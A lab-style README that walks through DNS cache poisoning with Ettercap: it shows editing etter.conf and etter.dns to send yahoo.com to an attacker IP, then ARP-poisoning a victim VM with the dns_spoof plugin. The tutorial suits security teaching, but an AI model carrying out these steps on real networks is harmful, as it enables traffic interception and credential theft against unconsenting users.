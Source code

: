# dns-cache-poisoning



## REQUIREMENTS

1. virtual box
2. Two virtual machines 

      . we are using kali machine for attacking and windows machine as victim
      
3. Ettercap Application
4. Apache Server
5. IpTables

## How to install requirements

1. Installing virtual box

     . visit https://www.virtualbox.org/wiki/Downloads and download according to the operating system
        
        
2. Download and install kali machine 64 bit on virtual box using the link provided

     . https://kali.download/virtual-images/kali-2022.1/kali-linux-2022.1-virtualbox-amd64.ova
       follows instruction in the site to install kali machine on virtual box
       https://itsfoss.com/install-kali-linux-virtualbox/
        
3. Installing ettercap on kali
     use below command to install Ettercap application
     
        sudo apt-get install ettercap
        
4. installing apache server
     use following command to install apache server on kali
        
        sudo apt-get install apache2
                
5. install Iptable
     use following command to install iptables on kali
     
        sudo apt-get install iptables
       
# Getting Ready


### Configuring
      
                 
##### Edit Ettercap configuration file
                 
             

We now need to edit the Ettercap configuration file since it is our application of choice for today.
Let's navigate to /etc/ettercap/etter.conf and open the file with a text editor like leafpad and edit the file. 
We can use following command for that.

        leafpad /etc/ettercap/etter.conf

So now we want to edit the uid and gid values at the top to make them say 0 so go ahead and do that.


       ############################################################################

        [privs]
        ec_uid = 0               # nobody is the default
        ec_gid = 0               # nobody is the default

        [mitm]
        arp_storm_delay = 10          # milliseconds
        arp_poison_smart = 0          # boolean

Now scroll down until you find the heading that says Linux and under that remove both the # signs for the sections below where it says "Linux".



        #---------------
        #     Linux 
        #---------------

           redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
           redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"

        # pendant for IPv6 - Note that you need iptables v1.4.16 or newer to use IPv6 redirect
           redir6_command_on = "ip6tables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
           redir6_command_off = "ip6tables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"

##### Edit Ettercap.dns file

  Edit the domain name to spoof and  edit the IP address to attackers IP address and save the file

        #                                                                          #
        # Sample hosts file for dns_spoof plugin                                   #
        #                                                                          #
        # the format is (for A query):                                             #
         *yahoo.com 		A	 172.20.10.4
         www.yahoo.com 		A	 172.20.10.4
         *.yahoo.com		A	 172.20.10.4	
        #
        #   *.foo.com          A 168.44.55.66 [optional TTL]                       #
        #      
        
##### Run ettercap application

   use folowing command to run Ettercap application from terminal
   
        ettercap -G
        
 1. choose primary interface and click accept on top right corner
 2. click on threen dots on top right to select options
        select Hosts --> Scan for Hosts     
        this will scan for the available devices connected to the network and save it to Hosts List
 3. click on threen dots on top right to select options
        select Hosts --> Hosts List
        it will list the hosts in network found on previous scanning step
 4. Select the victim's IP address and add it to target1 by clicking on "Add to Target1"
 5. select the DNS IP address and add it to target2 by clicking on "Add to Target2"
 6. now Click on Ettercap Menu and select Plugins --> Manage Plugins
        select dns_spoof. now right click and activate plugin
 7. click on man in the MITM Menu on top right corner near Ettercap Menu and select ARP Poisoning. click OK 


#### testing

All set now try accessng the website from victim's Machine.
it'll be redirected to the ip address specified in the etter.dns file

we can use the chk_poison to validate the poisoning
